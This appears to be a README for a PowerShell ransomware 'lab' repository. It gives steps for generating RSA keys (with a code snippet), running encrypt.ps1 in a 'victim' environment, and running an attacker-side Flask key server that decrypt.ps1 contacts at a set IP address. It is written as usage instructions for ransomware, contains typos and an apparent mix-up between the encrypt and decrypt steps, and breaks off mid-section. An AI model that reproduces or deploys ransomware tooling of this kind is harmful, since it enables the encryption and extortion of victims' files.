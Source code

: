 # Powershell ransomware LAB
## Date: April 1 2021 

## Description:
A Simple Powersell 3.0 Script Can easier and faster to Encrypt/Decrypt File in assign extensions.
The size of these encrypted files will not exceed 2G.
### How to Use:
	Encrypt:
		In Victim ENV
		you can use the function to genrate RSA 2048 bit key to replace encrypt.ps1 $pbkey
		$private_key can use https://github.com/MisterDaneel/PemToXml transform to pem 
		```
		function rsagen{
		$rsa = New-Object System.Security.Cryptography.RSACryptoServiceProvider -ArgumentList 2048
		$private_key = $rsa.toXmlString($true)
		$public_key = $rsa.toXmlString($false)
		return $private_key,$public_key
		}
        	$privatekey,$pubkey = rsagen
		```
		RUN encrypt.ps1
	Decrypt:
		Attacker ENV :
			python 3.7.9(python3.8 no support RSA time.clock)
			pycrypto package
			flask package
			your pem file
			RUN rsa.py
		In Vitcim
		modify decrypt.ps1 url "http://10.10.10.4:3000/session"
		RUN encrypt.ps1

### Encrypt/Decrypt File Process:
	
